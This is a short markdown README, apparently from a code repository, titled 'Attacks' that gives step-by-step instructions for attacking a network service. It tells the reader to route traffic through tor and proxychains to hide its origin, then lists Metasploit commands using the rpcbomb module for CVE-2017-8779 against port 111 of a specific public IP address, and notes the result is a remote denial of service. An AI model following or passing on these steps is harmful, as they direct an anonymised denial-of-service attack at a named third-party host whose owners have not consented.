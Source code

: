 # Attacks 

Documentation on how to attack services

## Before Attacking 

use tor first then proxychains 
First Terminal
`tor`

Second terminal
`proxychains <program>`

## CVE-2017-8779

### RPCbind port 

Open the Metasploit framework and type 'use auxiliary/dos/rpc/rpcbomb'
set RHOSTS to 149.56.38.19 and RPORT to 111
Type 'exploit'

### Impact

An attacker could use this vulnerability to trigger large unfreed memory allocations on the system leading to a remote Denial of Service.
